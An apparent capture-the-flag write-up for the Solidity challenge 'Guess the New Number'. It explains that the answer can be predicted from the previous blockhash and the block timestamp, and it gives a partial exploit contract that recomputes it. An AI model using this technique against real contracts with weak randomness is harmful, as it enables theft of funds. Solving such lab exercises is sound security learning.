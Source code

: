 # Guess the New Number

Answer is already there. We can see how number has been generated and it is generated on each function call, dependeing on previous bock and current block timestamp, 
so we cak use the same to calculate it.

```
contract ExploitContract {
    GuessNewNumber public guessNewNumber;
    uint8 public answer;

    function Exploit() public returns (uint8) {
        answer = uint8(uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))));

        return answer;
    }
}
```